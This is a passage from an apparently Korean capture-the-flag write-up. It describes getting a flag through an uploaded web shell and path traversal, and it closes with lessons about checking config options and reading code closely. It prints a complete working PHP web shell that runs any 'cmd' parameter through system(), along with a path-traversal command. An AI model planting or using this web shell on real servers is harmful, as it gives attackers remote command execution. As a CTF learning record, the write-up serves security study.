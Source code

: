 ### 3. 업로드한 웹쉘 파일을 이용해 flag를 획득!

![스크린샷 2025-07-30 오후 7.01.17.png](./images/CCE_8.png)

![스크린샷 2025-07-30 오후 7.01.26.png](./images/CCE_9.png)

```bash
../../../../<실행파일명>
```

### 익스플로잇 코드

```bash
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>"> 
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form> 
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

## 핵심 정리 (본 문제에서 알아가야할 내용)

conf 파일 옵션도 확인해보자. 

→ 코드를 아주 꼼꼼하게 보자..
